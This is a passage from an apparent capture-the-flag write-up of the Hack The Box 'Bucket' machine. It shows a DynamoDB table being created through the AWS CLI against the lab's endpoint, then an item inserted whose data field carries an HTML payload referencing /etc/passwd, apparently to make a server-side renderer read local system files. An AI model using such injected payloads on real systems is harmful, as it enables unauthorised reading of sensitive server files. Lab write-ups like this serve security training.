 I used the AWS CLI to create the table called `alerts` using the information from the documentation and got back a response.

```json
{
    "TableDescription": {
        "AttributeDefinitions": [
            {
                "AttributeName": "title",
                "AttributeType": "S"
            },
            {
                "AttributeName": "data",
                "AttributeType": "S"
            }
        ],
        "TableName": "alerts",
        "KeySchema": [
            {
                "AttributeName": "title",
                "KeyType": "HASH"
            },
            {
                "AttributeName": "data",
                "KeyType": "RANGE"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": 1615775665.193,
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": 0.0,
            "LastDecreaseDateTime": 0.0,
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 10,
            "WriteCapacityUnits": 10
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}
```

It looked like I had successfully created the table.

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws dynamodb put-item \    
    --table-name alerts \
    --item '{                
        "title": {"S": "Ransomware"},                                           
        "data": {"S": "<html><head></head><body><img src='/etc/passwd'></img></body></html>"}
      }' \                                                                 
    --return-consumed-capacity TOTAL --endpoint-url http://s3.bucket.htb
```
